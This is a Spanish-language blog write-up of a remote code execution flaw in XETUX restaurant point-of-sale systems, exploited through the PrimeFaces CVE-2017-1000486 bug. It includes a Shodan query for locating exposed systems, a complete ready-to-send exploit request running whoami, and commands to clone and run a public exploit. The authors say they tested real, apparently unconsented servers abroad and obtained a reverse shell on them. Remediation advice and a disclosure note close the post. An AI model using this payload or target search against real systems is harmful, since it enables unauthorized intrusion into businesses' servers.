


# De la Mesa al Código: Un Viaje a Través de la Vulnerabilidad RCE en POS para Restaurantes

En esta oportunidad nos encontramos por casualidad con una vulnerabilidad presente en varias aplicaciones de POS para restaurantes [XETUX](https://www.xetux.com/pa/), la cual es una solución para monitoreo  y automatización de restaurantes.  En panamá es una herramienta ampliamente utilizada por varios restaurantes.

La vulnerabilidad presente es una RCE (remote code execution), que permite atacantes ejecutar códigos de manera no autenticada y ganar privilegios en el objetivo.


##### 1. Enumeración 

Una vez descubrimos que la existencia de una librería presente en la aplicación de Xetux, la librería en cuestión es llamada primefaces, encargada de generar pdf, decidimos realizar una búsqueda en shodan para identificar posibles objetivos

```
http.title:"@XETUX" country:PA
```

La búsqueda arrojo 40 resultados y 334 en el mundo



Procedemos a comprobar la vulnerabilidad en uns objetivos que no se encontraban en Panamá, al analizar los resultados el backend 


Podemos observar que la aplicación ha sido instalada con todos los privilegios **nt authoriy\system**, vamos a explicar lo que sucede a continuación:

La aplicación esta usando un apache tomcat como server, para el backend se utiliza java, en la aplicación usan una librería o un plugin de terceros llamados Primefaces, la ruta con el problema es el endpoint **javax.faces.resource/dynamiccontent.properties.xhtml**

Al buscar sobre dicha librería encontramos una [vulnerabilidad](https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix), Primefaces carga contenido dinámico de la siguiente manera

```html
/javax.faces.resource/dynamiccontent.properties.jsf?ln=primefaces&pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl&forcereload=1523006610695&pfdrid_c=true
```

El problema se encuentra en el parámetro **pdfid**

`pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl`

El valor del parametro va cifrado y no hay manera de validar si la petición será descifrada correctamente, desafortunadamente sino modifican los valores de la llave por defecto se pueden solicitar la generación de una default key, por lo que afortunadamente para nosotros todas las pruebas realizadas mantenían la lleve por defecto.

De igual manera se podría realizar un ataque Padding Oracle Attack y obtener las llave con la Herramienta Padbuster. A continuación compartimos la solicitud 

```html
POST /xc-one-pos/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: ip:9090
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1643

pfdrt=sc&ln=primefaces&pfdrid=4xE5s8AClZxUxmyaZjpBstMXUalIgOJHOtvxel%2Fv4YXvibdOn52ow4M6lDaKd9Gb8JdQqbACZNWVZpVS%2B3sX1Hoizouty1mYYT4yJsKPnUZ0LUHDvN0GB5YLgX1PkNY%2B1ZQ%2FnOSg5J1LDyzAjBheAxLDODIVcHkmJ6hnJsQ0YQ8bMU5%2B%2BTqeD4BGqCZMDjP%2BZQvveiUhxsUC%2F%2BtPqnOgFSBV8TBjDSPNmVoQ9YcKTGelKuJjS2kCXHjcyz7PcQksSW6UUmKu9RhJ%2Bx3Mnx6j56eroVPWnM2vdYRt5An6cLo1YPXu9uqriyg1wgm%2F7xYP%2FUwP1q8wfVeyM4fOw2xJzP6i1q4VLHLXi0VYHAIgaPrZ8gH8XH4X2Kq6ewyrJ62QxBF5dtE3tvLAL5tpGxqek5VW%2BhZFe9ePu0n5tLxWmqgqni8bKGbGrGu4IhXhCJhBxyelLQzPGLCfqmiQwYX5Ime9EHj1k5eoWQzH8jb3kQfFJ0exVprGCfXKGfHyfKfLEOd86anNsiQeNavNL7cDKV0yMbz52n6WLQrCAyzulE8kBCZPNGIUJh24npbeaHTaCjHRDtI7aIPHAIhuMWn7Ef5TU9DcXjdJvZqrItJoCDrtxMFfDhb0hpNQ2ise%2BbYIYzUDkUtdRV%2BjCGNI9kbPG5QPhAqp%2FJBhQ%2BXsqIhsu4LfkGbt51STsbVQZvoNaNyukOBL5IDTfNY6wS5bPSOKGuFjsQq0Xoadx1t3fc1YA9pm%2FEWgyR5DdKtmmxG93QqNhZf2RlPRJ5Z3jQAtdxw%2BxBgj6mLY2bEJUZn4R75UWnvLO6JM918jHdfPZELAxOCrzk5MNuoNxsWreDM7e2GX2iTUpfzNILoGaBY5wDnRw46ATxhx6Q%2FEba5MU7vNX1VtGFfHd2cDM5cpSGOlmOMl8qzxYk1R%2BA2eBUMEl8tFa55uwr19mW9VvWatD8orEb1RmByeIFyUeq6xLszczsB5Sy85Y1KPNvjmbTKu0LryGUc3U8VQ7AudToBsIo9ofMUJAwELNASNfLV0fZvUWi0GjoonpBq5jqSrRHuERB1%2BDW2kR6XmnuDdZMt9xdd1BGi1AM3As0KwSetNq6Ezm2fnjpW877buqsB%2BczxMtn6Yt6l88NRYaMHrwuY7s4IMNEBEazc0IBUNF30PH%2B3eIqRZdkimo980HBzVW4SXHnCMST65%2FTaIcy6%2FOXQqNjpMh7DDEQIvDjnMYMyBILCOCSDS4T3JQzgc%2BVhgT97imje%2FKWibF70yMQesNzOCEkaZbKoHz498sqKIDRIHiVEhTZlwdP29sUwt1uqNEV%2F35yQ%2BO8DLt0b%2BjqBECHJzI1IhGvSUWJW37TAgUEnJWpjI9R1hT88614GsVDG0UYv0u8YyS0chh0RryV3BXotoSkSkVGShIT4h0s51Qjswp0luewLtNuVyC5FvHvWiHLzbAArNnmM7k%2FGdCn3jLe9PeJp7yqDzzBBMN9kymtJdlm7c5XnlOv%2BP7wIJbP0i4%2BQF%2BPXw5ePKwSwQ9v8rTQ%3D%3D&cmd=whoami
```

##### 2. Reverseshell

Como mencionamos anteriormente la librería que contiene el RCE es Primefaces la cual tiene un exploit público [CVE-2017-1000486](https://github.com/pimps/CVE-2017-1000486)

Probaremos la vulnerabilidad bajando el exploit 

```shell
git clone https://github.com/pimps/CVE-2017-1000486.git
cd CVE-2017-1000486
pip3 install -r requirements.txt
```

Ejecutamos el exploit


El mismo nos va arrojar una llave y la petición 


Nos devolverá el resultado del comando 


Ahora vamos a proceder a obtener la shell reversa, debemos destacar que algunos targets tenían el AV activado y más de una solución de seguridad por lo que se debe realizar el bypass correspondiente. No procederemos a demostrar las técnicas de bypass, pero mostramos en la siguiente imagen el acceso al server:



##### 3. Consideraciones Finales

- Es importante destacar que la falla no solamente aplica al software Xetux, la misma esta en la librería Primefaces se encuentra en otras aplicaciones como **MaxView Storage Manager** y **DOCBOX**. 

- Los fix para la vulnerabilidad se encuentran hace años puesta el mismo es del 2017, se recomienda actualizar el primefaces.

- El acceso al endpoint es sin autenticación por lo que cualquiera puede realizar peticiones, por lo que se debe validar si las peticiones son válidas.

- Si utiliza alguna de las aplicaciones mencionados compartimos el repositorio de nuclei con el que pueden comprobar si son vulnerables https://gitlab.com/t0adsec/nuclei-templates

- Responsablemente hemos informado a los proveedores de la app en sus respectivos países, no obstante a la fecha no hemos recibido contacto de parte de ellos.

  

##### 4. Referencias

- *XETUX 软件 dynamiccontent.properties.xhtml 远程代码执行漏洞-CSDN博客*. (s. f.). https://blog.csdn.net/holyxp/article/details/134402720
- Gobysec. (s. f.). *GobyVuls/GobyVuls-Document.md at master · gobysec/GobyVuls*. GitHub. https://github.com/gobysec/GobyVuls/blob/master/GobyVuls-Document.md
- Lindner, S. (2018, 26 abril). *PrimeFaces Expression Language Remote Code Execution fix*. illucIT Software GmbH. https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix